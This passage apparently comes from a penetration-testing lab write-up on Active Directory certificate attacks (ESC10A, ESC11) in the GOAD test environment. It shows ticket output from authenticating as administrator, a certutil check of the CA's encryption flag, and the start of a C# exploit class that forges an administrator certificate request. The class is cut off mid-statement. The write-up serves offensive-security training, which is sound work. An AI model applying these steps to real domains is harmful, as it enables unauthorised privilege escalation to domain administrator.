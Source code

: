 ```bash
[+] TGT request successful!

  UserName                 : administrator
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 6:45:12 PM
  EndTime                  : 1/4/2025 4:45:12 AM
  RenewTill                : 1/10/2025 6:45:12 PM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable
```

Perfect! We've successfully used ESC10A to authenticate as administrator using a machine certificate mapped via `altSecurityIdentities`.

## ESC11: IF_ENFORCEENCRYPTICERTREQUEST

ESC11 targets CAs configured with IF_ENFORCEENCRYPTICERTREQUEST flag, which can be bypassed under certain conditions.

### Attack Vector

ESC11 exploits RPC call tampering when certificate requests are transmitted unencrypted to the Certificate Authority.

**Important:** The "unencrypted request" only succeeds when the CA has `IF_ENFORCEENCRYPTICERTREQUEST` cleared. If this flag is set (the secure default on modern Windows versions), the RPC interface forces packet privacy and NTLM relay fails.

### Prerequisites

Let's check the GOAD CA configuration. Check if CA has IF_ENFORCEENCRYPTICERTREQUEST flag cleared:

```bash
certutil -config "braavos.essos.local\ESSOS-CA" -getreg CA\InterfaceFlags

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\ESSOS-CA\InterfaceFlags REG_DWORD = 0x0 (0)

```

H0x0 = vulnerable (no encryption required), 0x200 = hardened (encryption required). IF_ENFORCEENCRYPTICERTREQUEST is NOT set (flag would be 0x200) - this makes the CA vulnerable to ESC11.

1. **CA has IF_ENFORCEENCRYPTICERTREQUEST flag cleared** ✓
2. **Unencrypted certificate request** ✓

### Bypass Technique

```csharp
// Create unencrypted certificate request for GOAD environment
public class ESC11Exploit
{
    public string CreateUnencryptedRequest(string subject, string altname = "administrator@essos.local")
    {
        var request = new CX509CertificateRequestPkcs10();
        var privateKey = new CX509PrivateKey();

        // Configure for unencrypted submission to GOAD CA
        privateKey.ProviderName = "Microsoft Software Key Storage Provider";
        privateKey.Create();

        request.InitializeFromPrivateKey(
            X509CertificateEnrollmentContext.ContextUser,
            privateKey,
```